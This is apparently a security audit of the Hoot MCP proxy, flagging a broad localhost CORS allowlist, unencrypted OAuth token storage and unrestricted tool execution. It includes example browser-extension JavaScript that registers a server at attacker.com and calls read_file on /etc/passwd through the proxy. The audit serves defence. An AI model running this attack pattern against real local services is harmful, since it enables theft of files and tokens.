 ### 2. **Broad CORS Allowlist** 🟡 MEDIUM

**Issue:** Allowing multiple localhost ports creates opportunities for:
- **Port collision attacks**: Attacker runs service on port 3000/8009
- **Development environment compromise**: Other dev tools on these ports could be exploited

### 3. **OAuth Token Storage Security** 🟡 MEDIUM

**Current State:**
- Tokens stored in `~/.hoot/hoot-mcp.db` (SQLite)
- No encryption at rest
- File permissions depend on OS defaults

**Risk:** If attacker gains file system access, they can steal all OAuth tokens.

### 4. **Privileged Tool Execution** 🟡 MEDIUM

**Issue:** Once connected, Hoot can execute ANY tool on the MCP server with NO:
- Rate limiting
- Command validation
- Audit logging (beyond console.log)

---

## Attack Scenarios

### Scenario 1: Malicious Browser Extension

```javascript
// Malicious extension code
chrome.webRequest.onBeforeRequest.addListener(() => {
  // Extension can make requests to localhost:8008
  fetch('http://localhost:8008/mcp/connect', {
    method: 'POST',
    body: JSON.stringify({
      serverId: 'evil',
      serverName: 'Attacker Server',
      url: 'https://attacker.com/mcp',
      transport: 'sse',
      auth: { type: 'none' }
    })
  });
  
  // Now execute tools to steal data
  fetch('http://localhost:8008/mcp/execute', {
    method: 'POST',
    body: JSON.stringify({
      serverId: 'victim-server',
      toolName: 'read_file',
      arguments: { path: '/etc/passwd' }
    })
  });
});
```
